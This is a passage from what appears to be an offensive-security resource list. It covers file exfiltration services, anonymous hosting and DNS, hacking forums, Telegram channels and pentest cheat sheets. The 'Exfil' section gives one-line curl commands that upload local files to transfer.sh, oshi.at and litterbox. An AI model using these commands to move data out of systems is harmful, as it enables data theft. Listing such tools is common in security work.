 Exfil<a id="cloudexfil"></a>
1. [Blitz](https://github.com/hackerschoice/gsocket#blitz) - `blitz -l` / `blitz foo.txt`
2. [RedDrop](https://github.com/cyberbutler/RedDrop) - run your own Exfil Server
1. [Mega](https://mega.io/cmd)
2. [oshiAt](https://oshi.at/) - also on TOR. `curl -T foo.txt https://oshi.at`
5. [Transfer.sh](https://transfer.sh/) - `curl -T foo.txt https://transfer.sh`
6. [LitterBox](https://litterbox.catbox.moe/tools.php) - `curl -F reqtype=fileupload -F time=72h -F 'fileToUpload=@foo.txt' https://litterbox.catbox.moe/resources/internals/api.php`  
7. [Croc](https://github.com/schollz/croc) - `croc send foo.txt / croc anit-price-example`
8. [MagicWormhole](https://pypi.org/project/magic-wormhole/)

Publishing
1. [free BT/DC/eD2k seedbox](https://valdikss.org.ru/schare/)
1. Or use /onion on [segfault.net](https://www.thc.org/segfault) or plain old https with ngrok.
1. [DuckDNS](https://www.duckdns.org/) - Free Dynamic Domain Names
3. [afraid.org](https://www.afraid.org) - Free Dynamic DNS for your domain
2. [he.net](https://dns.he.net/) - Free Nameserver service
4. [0bin](https://0bin.net/) / [paste.ec](https://paste.ec) - Encrypted PasteBin
5. [pad.riseup.net](https://pad.riseup.net) - Create documents and share them securely

Forums and Conferences
1. [0x00Sec](https://0x00sec.org/) - Reverse Engineering & Hacking with a pinch of Malware
3. [AlligatorCon](https://www.alligatorcon.eu/) - the original
4. [0x41con](https://0x41con.org/)
5. [TumpiCon](https://tumpicon.org/)

Telegram Channels<a id="channels"></a>
1. [The Hacker's Choice](https://t.me/thcorg)
1. [The Hacker News](https://t.me/thehackernews)
1. [CyberSecurity Technologies](https://t.me/CyberSecurityTechnologies)
1. [Offensive Twitter](https://t.me/OffensiveTwitter)
1. [Pwn3rzs](https://t.me/Pwn3rzs)
1. [VX-Underground](https://t.me/vxunderground)
1. [cKure](https://t.me/cKure)
1. [Android Security / Malware](https://t.me/androidMalware)
1. [OSINT CyberDetective](https://t.me/cybdetective)
1. [BookZillaaa](https://t.me/bookzillaaa)

Mindmaps & Knowledge
1. [Compass Sec Cheat Sheets](https://github.com/CompassSecurity/Hacking_Tools_Cheat_Sheet)
2. [Network Pentesting](https://github.com/wearecaster/NetworkNightmare/blob/main/NetworkNightmare_by_Caster.png)
1. [Active Directory](https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2023_02.svg)

<a id="cool-linux-commands"></a>
**13.ii. Cool Linux commands**

1. https://jvns.ca/blog/2022/04/12/a-list-of-new-ish--command-line-tools/
1. https://github.com/ibraheemdev/modern-unix

<a id="tmux"></a>
**13.iii. Tmux Cheat Sheet**

